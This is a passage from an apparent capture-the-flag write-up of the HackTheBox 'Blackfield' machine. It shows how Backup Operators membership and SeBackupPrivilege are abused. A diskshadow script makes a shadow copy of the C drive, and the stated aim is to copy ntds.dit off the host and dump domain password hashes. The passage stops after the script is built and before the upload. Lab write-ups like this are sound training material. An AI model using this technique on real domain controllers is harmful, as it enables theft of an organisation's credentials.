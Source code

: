### Privilege Escalation

Running `whoami /all` I see svc_backup is part of the Backup Operators group, and that they have SeBackupPrivilege enabled.

![whoami.png](../assets/blackfield_assets/whoami.png)

This can be exploited to copy the ntds.dit file back to our attacking machine, which can then be used to dump domain hashes. 

First thing we'll need to do is create a .dsh (distributed shell) file called hey.dsh, and convert it to Windows format using unix2dos:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> hey.dsh    
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                              
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ unix2dos hey.dsh     
unix2dos: converting file hey.dsh to DOS format...
```

We can then upload the file using `upload` in Evil-WinRM. Once uploaded (into a writable directory, I made a TEMP directory) we can run diskshadow which makes a copy of the C drive for us in a Z drive. 
